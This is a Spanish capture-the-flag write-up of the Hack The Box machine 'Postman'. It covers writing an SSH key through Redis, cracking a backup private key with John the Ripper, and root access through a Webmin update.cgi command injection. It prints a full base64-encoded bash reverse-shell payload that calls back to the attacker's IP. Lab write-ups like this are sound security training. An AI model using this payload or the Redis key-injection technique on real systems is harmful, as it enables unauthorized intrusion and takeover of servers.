 ```yaml
---
layout: post
title: Write-Up Máquina Postman HTB
date: 2021-01-14 01:23 +0800
last_modified_at: 2021-01-14 01:28 +0800
tags: [htb, writeup, ssh, Redis, Webmin, Linux]
toc:  true
---
```

![Postman-Card](/assets/imagenes/2021-01-14-postman-HTB/Postman-card.png)

---
## Introducción

La máquina Postman corre ins sistema linux de 64 bits y tiene un nivel de deificultad fácil. Para la explotación inicial, vamos a hacer uso de una vulnerabilidad de escritura de ficheros que afecta al servicio Redis entre las versiones 4.0 y 5.0. Posteriormente a esto vamos a utilizar una clave privada que se encentra en un directorio de la maquina para realizar un movimiento lateral y asi conseguir el user. Para la escalada de privilegios, vamos a hacer uso de una vulnerabilidad de rce en el servicio webmin con la que obtendremos una shell reversa.

---
## Escaneo

![Postman-nmap](/assets/imagenes/2021-01-14-postman-HTB/Postman-nmap.png)

El escaneo de la maquina nos revela que tenemos abiertos los puertos:
* 22 ----> SSH
* 80 ----> http
* 6379 --> Redis
* 10000 -> http

### Puerto 80 (apache)

En el puerto 80 nos encontramos con una web que dice estar en construccion:

![Postman-web](/assets/imagenes/2021-01-14-postman-HTB/Postman-web.png)

En este caso la web no aloja nada que nos interese para la explotación.

### Puerto 3679 (Redis)

Buscando informacion sobre la version de redis encontramos un articulo de medium que habla sobre [como obtener una rce en Redis](https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0).
Para nuestro caso vamos a modificar un poco los comandos que ejecuta, pero la base es la misma.
El procedimiento que vamos a seguir en este caso es crear un par de claves RSA  e inyectarlas al servidor Redis para escribirlas en el fichero authorized_keys del user redis.

### Puerto 10000 (Webmin)

En el puerto 10000 nos encontramos un webmin desactualizado del que no tenemos ningun tipo de credencial.

---

## Explotación

Lo primero, vamos a generar nuestro par de claves:

![Postman-id-rsa-redis](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-redis.png)

Una vez generadas vamos a empezar a interactuar con el servidor redis para para inyectar nuestra clave publica en las claves autorizadas.

![Postman-explotacion](/assets/imagenes/2021-01-14-postman-HTB/Postman-explotacion-redis.png)

Una vez hecho esto, le asignamos los permisos correctos a nuestra clave privada (600) y nos conectamos por ssh.

![Postman-ssh](/assets/imagenes/2021-01-14-postman-HTB/Postman-ssh-redis.png)

---

## Movimiento lateral

Si nos vamos al directorio /opt, veremos un fichero llamado id_rsa.bak el cual es propiedad del user Matt.

![Postman-id_rsa.bak-dir](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-matt-bak-opt.png)

Ya que tenemos la clave privada vamos a copiarla y a intentar crackearla con la herramienta john the ripper.
Pero primero tenemos que pasar la clave privada a un formato entendible para john, porlo que vamos a isar la herramienta `/usr/share/john/ssh2john.py`. El comando quedaria de la sigiente manera:
* /usr/share/john/ssh2john.py id_rsa.bak > id_rsa-bak.txt (Para las ultimas versiones de ParrotOs y Kali que no traen el paquete python hay que editar la primera linea del fichero y cambiar *python* por **python2.7**).

Una vez ejecutado ya podemos intentar crackear la clave.

![Postman-cracked-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-cracked-matt.png)

**¡¡Ya tenemos una posible password para el user Matt!!**

Vamos a probarla.

![Postman-su-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-su-Matt-succesful.png)

Ya somos Matt.

![Postman-Matt-flag](/assets/imagenes/2021-01-14-postman-HTB/Postman-prueba-Matt.png)

---

## Escalada de privilegios

Para la escalada de privilegios nos vamos a aprovechar de una vulneravilidad en el servicio webmin que nos permitira llamar a una shell reversa a traves de bash.

Primero vamos a encodear el comando en base64.

![Postman-bash-payload](/assets/imagenes/2021-01-14-postman-HTB/Postman-bash-payload.png)

Ahora generaremos el payload que vamos a mandar al servidor.

![Postman-peticion](/assets/imagenes/2021-01-14-postman-HTB/Postman-peticion.png)

* URL: 10.10.10.160:10000/package-updates/update.cgi
* Method: POST
* payload: u=acl%2Fapt&u=$(command)

En nuestro caso la string del comando `echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash`.
${IFS} se usa para sustituir los espacios y %2b es para sustituir los simbolos + y que no se transformen en espacios.

Con el listener levantado reciviremos la conexion.

![Postman-rev-shell-root](/assets/imagenes/2021-01-14-postman-HTB/Postman-rev-shell-root.png)








